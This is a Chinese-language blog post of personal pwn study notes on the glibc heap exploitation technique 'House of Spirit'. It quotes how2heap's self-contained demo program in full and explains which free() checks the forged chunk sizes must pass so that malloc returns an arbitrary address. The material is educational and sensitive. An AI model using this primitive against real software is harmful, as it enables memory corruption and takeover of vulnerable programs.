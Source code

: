 ```yaml
---
title: "屋宇之术：Labyrinth of Houses"
published: 2025-10-04
updated: 2025-10-04
description: "你也想知道这些「屋子」里的秘密吗？"
image: "https://ghproxy.net/https://raw.githubusercontent.com/CuB3y0nd/picx-images-hosting/master/.1sff5zil5e.avif"
tags: ["Pwn", "Heap", "Notes"]
category: "Notes"
draft: false
---
```


# House of Spirit

## Applicable Range

- latest

## Principles

人生中的第一个「house」，当然是从 Spirit 开始～

下面直接拿 [how2heap](https://github.com/shellphish/how2heap) 的 example code 来学习了，选择的是 [glibc_2.35/house_of_spirit.c](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/house_of_spirit.c)：

```c
#include <assert.h>
#include <stdio.h>
#include <stdlib.h>

int main() {
  setbuf(stdout, NULL);

  puts("This file demonstrates the house of spirit attack.");
  puts("This attack adds a non-heap pointer into fastbin, thus leading to "
       "(nearly) arbitrary write.");
  puts("Required primitives: known target address, ability to set up the "
       "start/end of the target memory");

  puts("\nStep 1: Allocate 7 chunks and free them to fill up tcache");
  void *chunks[7];
  for (int i = 0; i < 7; i++) {
    chunks[i] = malloc(0x30);
  }
  for (int i = 0; i < 7; i++) {
    free(chunks[i]);
  }

  puts("\nStep 2: Prepare the fake chunk");
  // This has nothing to do with fastbinsY (do not be fooled by the 10) -
  // fake_chunks is just a piece of memory to fulfil allocations (pointed to
  // from fastbinsY)
  long fake_chunks[10] __attribute__((aligned(0x10)));
  printf("The target fake chunk is at %p\n", fake_chunks);
  printf(
      "It contains two chunks. The first starts at %p and the second at %p.\n",
      &fake_chunks[1], &fake_chunks[9]);
  printf("This chunk.size of this region has to be 16 more than the region (to "
         "accommodate the chunk data) while still falling into the fastbin "
         "category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by "
         "free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) "
         "and NON_MAIN_ARENA (third lsb) bits cause problems.\n");
  puts("... note that this has to be the size of the next malloc request "
       "rounded to the internal size used by the malloc implementation. E.g. "
       "on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for "
       "the malloc parameter at the end.");
  printf("Now set the size of the chunk (%p) to 0x40 so malloc will think it "
         "is a valid chunk.\n",
         &fake_chunks[1]);
  fake_chunks[1] = 0x40; // this is the size

  printf("The chunk.size of the *next* fake region has to be sane. That is > "
         "2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for "
         "the main arena) to pass the nextsize integrity checks. No need for "
         "fastbin size.\n");
  printf("Set the size of the chunk (%p) to 0x1234 so freeing the first chunk "
         "can succeed.\n",
         &fake_chunks[9]);
  fake_chunks[9] = 0x1234; // nextsize

  puts("\nStep 3: Free the first fake chunk");
  puts("Note that the address of the fake chunk must be 16-byte aligned.\n");
  void *victim = &fake_chunks[2];
  free(victim);

  puts("\nStep 4: Take out the fake chunk");
  printf("Now the next calloc will return our fake chunk at %p!\n",
         &fake_chunks[2]);
  printf(
      "malloc can do the trick as well, you just need to do it for 8 times.");
  void *allocated = calloc(1, 0x30);
  printf("malloc(0x30): %p, fake chunk: %p\n", allocated, victim);

  assert(allocated == victim);
}
```

先说效果，这个攻击基本上就是可以令我们 malloc 返回一个任意地址，比如返回栈地址，~_然后就可以竭尽所学，做一些瑟瑟的事情了什么？我说的瑟，可是萧瑟的瑟哦～ chill bro_~

上面这个程序不难理解吧？就是先把 tcache 的 0x40 bin 填满，确保我们接下来所做的都是针对于 fastbin 的 0x40 bin 。接着关键的地方是设置了两个 fake chunk 的 size，一个是 `0x40`，紧接着它的 nextchunk size 设置为 `0x1234`，这是为了过两个检查：

首先是我们不希望进入 `__libc_free` 中的 `chunk_is_mmapped` 分支执行 `munmap_chunk`，所以伪造的第一个 chunk size 的 `M (IS_MMAPPED)` 位必须为 0。然后进入 `_int_free` 后我们第一个 chunk 的 size 必须满足 `size > MINSIZE`，否则会抛出 `free(): invalid size`，接着由于我们希望进入 fastbin，所以 size 必须在 fastbin 最大支持大小范围内，且 `chunk_at_offset(p, size) != av->top`，即紧临着的 nextchunk 不能是 top chunk，这就是为什么需要伪造两个 chunk 的原因。最还还不能满足 `chunksize_nomask (chunk_at_offset (p, size)) <= CHUNK_HDR_SZ`，即 nextchunk 的大小不能小于等于 chunk header size 和 `chunksize (chunk_at_offset (p, size)) >= av->system_mem`，即下一个 chunk 的大小大于不能大于当前 arena 内存池大小这两个检测，否则就抛出 `free(): invalid next size (fast)`。到此为止检测就绕差不多了，然后它会将这个 chunk 放到 fastbin 中，就不过多赘述了。

:::important
注意 `NON_MAIN_ARENA` 位也会有影响，得设置成 0 告诉 glibc 这是 main arena 的 chunk 。

nextchunk 的大小无关紧要，只要能绕过检测就好了，不一定非得是 fastbin 范围内的大小。
:::

感觉写了一堆没用的，还不如直接看 example code + glibc source code + 自己 debug 理解的透彻……可能是这块内容确实不好写，因为写详细的话必然得贴 glibc 代码片段，考虑到以后还有各种各样其它的 house，肯定会有重复的内容，<s>_属于是增加碳排放了，我可是坚定的环保主义者（_</s>

好麻烦……后面有时间我再研究研究怎么写吧，也可能会直接删掉，只保留部分内容也说不准？
